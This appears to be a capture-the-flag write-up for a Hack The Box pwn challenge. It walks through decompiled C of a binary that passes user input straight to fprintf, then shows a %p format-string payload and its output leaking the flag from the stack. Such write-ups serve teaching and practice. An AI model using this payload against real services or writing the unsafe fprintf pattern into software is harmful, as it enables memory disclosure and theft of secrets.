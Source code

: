 ```yaml
---
title:  "[CTF] Unauthorised Access"
categories: [CTF, HTB, Pwn]
---
```

*Our security developer stated that switching to a 64-bit architecture is unnecessary since their program ensures safety, and only the admin with the authorization cookie can access the secret file. However, we remain uncertain and would appreciate it if you could investigate this matter further.*

## Understanding the challenge

When running the binary, we have a few tempting options, like reading the secret message or logging in as admin, which of course don’t work:

![Menu](/assets/images/Unauthorised/menu.png)


Behind the scenes, the main function simply calls  a few helper functions to setup the challenge and display the menu:

```c
undefined4 main(void)

{
  int iVar1;
  undefined4 uVar2;
  int in_GS_OFFSET;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  setup();
  banner();
  menu();
  uVar2 = 0;
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar2 = __stack_chk_fail_local();
  }
  return uVar2;
}
```


The interesting bits happen in the `menu()` function (annotated code with comments and variable names changed, obtained from Ghidra decompile tool):

```c
void menu(void)
{
  int fdFlag;
  int in_GS_OFFSET;
  byte bVar1;
  undefined4 contentFlag [20];
  undefined4 msgToAdmin [64];
  undefined4 local_10;
  undefined4 *ptrStr;
  
  bVar1 = 0;
  local_10 = *(undefined4 *)(in_GS_OFFSET + 0x14);
  while( true ) {
    // Zero out
    ptrStr = msgToAdmin;
    for (fdFlag = 0x40; fdFlag != 0; fdFlag = fdFlag + -1) {
      *ptrStr = 0;
      ptrStr = ptrStr + (uint)bVar1 * -2 + 1;
    }
    ptrStr = contentFlag;
    for (fdFlag = 0x14; fdFlag != 0; fdFlag = fdFlag + -1) {
      *ptrStr = 0;
      ptrStr = ptrStr + (uint)bVar1 * -2 + 1;
    }
   fdFlag = open("./flag.txt",0);
    if (fdFlag < 0) break;
 read(fdFlag,contentFlag,0x50);
    fwrite("\n+--------------------------+\n|  1. Read secret message  |\n|  2. Login as admin        |\n|  3. List directory       |\n|  4. Exit                 |\n+--------------------------+\n\n $ "
           ,1,0xb2,stdout);
    fdFlag = read_num();
    if (fdFlag == 2) {
      fprintf(stdout,"%s\n[-] Auth token does not match with admin\'s. Login failed!\n%s",
              &DAT_00010fe8,&DAT_00010e72);
    }
    else if (fdFlag == 3) {
      puts("");
      system("ls");
    }
    else {
      if (fdFlag != 1) {
        fwrite("\nGoodbye!\n",1,10,stdout);
        exit(0x16);
      }
      fprintf(stdout,"%s\n[-] You are not admin!\n%s",&DAT_00010fe8,&DAT_00010e72);
      fwrite("\nYou can leave a message for admin to check it later: ",1,0x36,stdout);
 read(0,msgToAdmin,0x99);
 fwrite("\nYour message is: ",1,0x12,stdout);
 fprintf(stdout,(char *)msgToAdmin);
    }
  }
  perror("\nError opening flag.txt, please contact an Administrator.\n");

  exit(1);
}
```

## Vulnerability identification

Since we’re reading a message from the user and then printing it back as a string, we have a classic case of a format string vulnerability:

```c
read(0, msgToAdmin, 0x99);
fwrite("\nYour message is: ", 1, 0x12, stdout);
fprintf(stdout, (char *)msgToAdmin);
```

## Exploitation

Since we know that the flag is read on a variable stored on the stack, we can use the format string attack to print all the bytes of the message/flag, as hex pointers:


```bash
You can leave a message for admin to check it later: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p   
                                                          
Your message is: 0x12 0xf7e1dda0 0x1 0x1 0x3 0x7b425448 0x336b3466 0x346c665f 0x5f345f67 0x74353374 0x7d676e31 0xa (nil) (nil) (nil) (nil) (nil) (nil)  

```

## References

* [Lecture Notes (Syracuse University) - Format String Vulnerability](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)
* [OWASP - Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack)

